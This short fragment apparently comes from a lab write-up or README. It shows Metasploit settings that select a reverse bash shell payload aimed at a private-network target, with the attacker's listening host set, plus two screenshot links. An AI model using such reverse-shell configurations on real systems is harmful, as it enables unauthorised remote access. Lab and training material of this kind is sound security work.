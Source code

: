 ```
set payload payload/cmd/unix/reverse_bash
set RHOSTS 192.168.56.216
set rport 29551
set LHOST 192.168.56.214
```
![](./picturn/showpayload.png)
![](./picturn/showoptions.png)